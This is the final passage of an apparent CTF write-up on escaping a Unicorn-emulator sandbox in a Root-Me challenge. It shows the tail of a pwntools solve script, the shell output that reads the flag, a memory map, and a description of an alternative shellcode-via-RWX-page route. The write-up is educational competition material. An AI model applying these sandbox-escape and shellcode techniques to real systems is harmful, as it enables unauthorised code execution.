 ```python
    io.sendlineafter(b'Code length (16384 max): ', str(len(code)).encode())
    io.sendafter(b'Enter your code: ', code)
    
    io.interactive()
```

```
$ python solve.py
[...]
[+] Opening connection to dyn-01.xmas.root-me.org on port 20690: Done
[*] Switching to interactive mode
Executing your code...
$ ls
flag.txt
gci
$ cat flag.txt
RM{Deer_s4nta_1_w4nt_4_Un1c0rn!}
```

**FLAG:** `RM{Deer_s4nta_1_w4nt_4_Un1c0rn!}`

## Conclusion and Intended Solution

Kudos to voydstack for this great challenge. I had never done in
practice a sandbox escape before, and this challenge was a very good
introduction to this kind of sorcery.

We discussed the challenge after I solved it, and there was a way
cleaner solution.

I noticed earlier while solving the challenge that there was a
RWX-mapped page (actually used by Unicorn's JIT) but I haven't found
how to take profit from it.

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
         Start                End Perm     Size Offset File
0x55fde7a9b000     0x55fde7a9c000 r--p     1000      0 /data/rlaspina/Documents/00-CTF/00-CTF/2024/xmas_rootme/23-gift_control_interface/bin/gci_patched
0x55fde7a9c000     0x55fde7a9d000 r-xp     1000   1000 /data/rlaspina/Documents/00-CTF/00-CTF/2024/xmas_rootme/23-gift_control_interface/bin/gci_patched
[...]
0x7f3d6d610000     0x7f3d6d611000 ---p     1000      0 [anon_7f3d6d610]
0x7f3d6da00000     0x7f3dad9ff000 rwxp 3ffff000      0 [anon_7f3d6da00]  <--- HERE !
0x7f3dad9ff000     0x7f3dada00000 ---p     1000      0 [anon_7f3dad9ff]
[...]
0x7f3daddff000     0x7f3dade03000 r--p     4000 1fe000 /data/rlaspina/Documents/00-CTF/00-CTF/2024/xmas_rootme/23-gift_control_interface/bin/libc.so.6
0x7f3dade03000     0x7f3dade05000 rw-p     2000 202000 /data/rlaspina/Documents/00-CTF/00-CTF/2024/xmas_rootme/23-gift_control_interface/bin/libc.so.6
```

OOB write to `uc_engine` structure was intended, but instead we could
have overwritten the pointer to the area where the emulated stack is
mapped to remap it to the RWX area. We can then write a shellcode
there by executing `push` instructions in the emulated code (the
RWX-area actually becomes our new "stack"). Finally we overwrite the
pointer to `gci_read` as we have done with the address of the
shellcode.

A lot more nice-looking, but a flag is a flag... :)
